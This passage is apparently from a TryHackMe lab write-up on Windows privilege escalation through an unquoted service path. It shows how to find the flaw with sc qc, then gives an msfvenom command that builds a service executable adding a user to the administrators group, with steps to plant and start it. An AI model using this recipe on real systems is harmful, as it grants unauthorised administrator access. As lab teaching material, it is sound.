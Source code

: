 1. Open command prompt and type: `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
2. Copy the generated file, "common.exe", to the Windows VM.

Windows VM

1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: `sc start unquotedsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain (https://tryhackme.com/room/steelmountain).

## #10.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Notice in the below command that the path (BINARY_PATH_NAME variable) is not protected by quotes

~~~
C:\Users\user>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
The command completed successfully.
~~~

**Exploitation**

Let's use msfvenom to generate our service executable. The command that will be executed will add our user to the administrators group:

~~~
$ msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
Found a database at /home/unknown/.msf4/db, checking to see if it is started
Starting database at /home/unknown/.msf4/db...success
MSF web service is already running as PID 10094
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 224 bytes
Final size of exe-service file: 15872 bytes
Saved as: common.exe
$ python -m http.server
~~~
